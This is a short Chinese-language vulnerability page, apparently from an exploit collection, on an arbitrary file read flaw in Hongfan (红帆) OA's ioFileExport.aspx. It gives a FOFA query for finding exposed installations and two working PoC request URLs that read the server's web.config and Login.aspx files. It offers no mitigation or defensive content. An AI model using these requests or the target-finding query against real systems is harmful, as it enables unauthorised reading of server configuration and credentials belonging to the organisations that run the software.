

# 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## FOFA

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面


验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```


```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

